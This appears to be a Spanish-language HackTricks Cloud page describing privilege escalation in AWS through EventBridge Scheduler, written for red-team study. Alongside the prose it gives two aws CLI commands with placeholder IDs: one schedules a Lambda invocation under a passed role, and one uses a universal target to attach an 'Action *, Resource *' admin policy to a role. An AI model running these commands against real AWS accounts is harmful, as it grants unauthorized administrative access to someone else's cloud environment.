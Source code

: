 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler se puede utilizar para la escalada de privilegios programando llamadas a varios servicios de AWS. Al aprovechar su capacidad para invocar servicios de manera programada, los usuarios con permisos suficientes pueden escalar privilegios. Aquí hay algunas de las acciones clave que EventBridge Scheduler puede activar utilizando objetivos plantillados:

- Lambda: lambda:InvokeFunction - Invocar funciones Lambda en un horario.
- CodeBuild: codebuild:StartBuild - Iniciar proyectos de AWS CodeBuild.
- CodePipeline: codepipeline:StartPipelineExecution - Activar ejecuciones de AWS CodePipeline.
- ECS: ecs:RunTask - Ejecutar tareas de ECS.
- EventBridge: events:PutEvents - Colocar eventos en EventBridge.
- Inspector: inspector:StartAssessmentRun - Iniciar evaluaciones de Amazon Inspector.
- Kinesis: kinesis:PutRecord - Colocar registros en flujos de Kinesis.
- Firehose: firehose:PutRecord - Colocar registros en flujos de entrega de Firehose.
- SageMaker: sagemaker:StartPipelineExecution - Iniciar ejecuciones de pipeline de SageMaker.
- SNS: sns:Publish - Publicar mensajes en temas de SNS.
- SQS: sqs:SendMessage - Enviar mensajes a colas de SQS.
- Step Functions: states:StartExecution - Iniciar ejecuciones de AWS Step Functions.

Estas son solo algunas de las acciones plantilladas que EventBridge Scheduler puede realizar. Sin embargo, al usar objetivos universales, se pueden invocar muchas otras acciones en los servicios de AWS. Los objetivos universales permiten operaciones API más extensas más allá de la lista plantillada.

Más información sobre EventBridge Scheduler en:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `sts:AssumeRole`, `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Los usuarios con permisos `sts:AssumeRole`, `iam:PassRole` y `scheduler:CreateSchedule o scheduler:UpdateSchedule` pueden escalar privilegios aprovechando el EventBridge Scheduler para invocar servicios utilizando un rol con privilegios más altos.

Con estos permisos, un atacante puede asumir un rol con privilegios elevados y pasar ese rol a EventBridge Scheduler al crear o actualizar un horario. El horario se puede configurar para realizar cualquiera de las acciones listadas anteriormente, como invocar funciones Lambda, iniciar tareas de ECS, activar ejecuciones de CodePipeline, o cualquier operación de los 270 servicios de AWS soportados por EventBridge Scheduler. Al programar estas acciones, un atacante podría abusar de privilegios más altos para realizar operaciones no autorizadas en los servicios de AWS.
\\

Por ejemplo, podrían configurar el horario para invocar una función Lambda que es una acción plantillada:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
Además de las acciones de servicio con plantilla, puedes usar objetivos universales en EventBridge Scheduler para invocar una amplia gama de operaciones API para muchos servicios de AWS. Los objetivos universales ofrecen flexibilidad para invocar casi cualquier API. Un ejemplo puede ser usar objetivos universales añadiendo "AdminAccessPolicy", utilizando un rol que tiene la política "putRolePolicy":
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## Referencias

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
